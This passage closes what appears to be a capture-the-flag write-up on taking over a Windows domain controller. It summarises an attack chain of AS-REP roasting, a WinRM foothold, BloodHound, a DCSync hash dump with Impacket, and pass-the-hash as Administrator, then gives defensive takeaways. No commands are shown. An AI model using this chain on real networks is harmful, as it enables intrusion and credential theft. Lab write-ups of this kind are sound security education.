The authentication succeeded, and an administrative PowerShell session was established.

This demonstrates that the recovered NTLM hash could be used across multiple Windows management services without ever knowing the Administrator's plaintext password.

## Root Access Achieved

At this point, the Domain Controller had been fully compromised.

Using the Administrator NTLM hash provided complete administrative control over the system, allowing unrestricted access to:

- All user accounts
- Active Directory objects
- Domain configuration
- System files
- Registry hives
- Administrative shares

Because this was the built-in **Administrator** account on the Domain Controller, there were no additional privilege escalation steps required.

The machine was fully compromised.

# Summary

This privilege escalation relied entirely on **Active Directory misconfigurations** rather than on exploiting a software vulnerability.

The attack chain followed a logical progression:

1. Enumerated the Active Directory environment.
2. Identified a valid user account through Kerberos enumeration.
3. Recovered the user's password using **AS-REP Roasting**.
4. Gained an initial foothold through **WinRM**.
5. Used BloodHound to identify a service account with **DCSync** permissions.
6. Recovered the service account credentials from the compromised host.
7. Used **Impacket's `secretsdump.py`** to perform a DCSync attack and dump domain password hashes.
8. Authenticated as the built-in Administrator using **Pass-the-Hash**, obtaining full administrative access to the Domain Controller.

---

# Key Takeaways

- Active Directory misconfigurations can be just as dangerous as software vulnerabilities.
- Service accounts with excessive privileges should be carefully audited and monitored.
- DCSync rights should only be granted to Domain Controllers, as they allow password hashes to be replicated directly from Active Directory.
- NTLM hashes should be protected as carefully as plaintext passwords, since they can often be used directly through Pass-the-Hash attacks.
- Enumeration is critical—each discovery in this assessment directly enabled the next step, ultimately leading to complete domain compromise without exploiting a single software vulnerability.
